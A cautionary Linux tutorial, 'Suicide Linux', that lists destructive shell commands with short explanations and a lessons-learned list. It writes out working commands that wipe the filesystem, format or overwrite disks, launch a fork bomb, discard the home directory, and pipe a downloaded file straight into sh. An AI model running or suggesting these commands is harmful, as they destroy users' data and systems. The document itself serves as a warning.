 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

## Warning!!
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


#### Delete Everything!

`rm -fr /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


#### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### Collect Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### Danger from the Outside

`wget http://example.com/something -O – | sh –`


#### No More Busy

`find / -name busybox -exec rm -f {} \;`

## Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
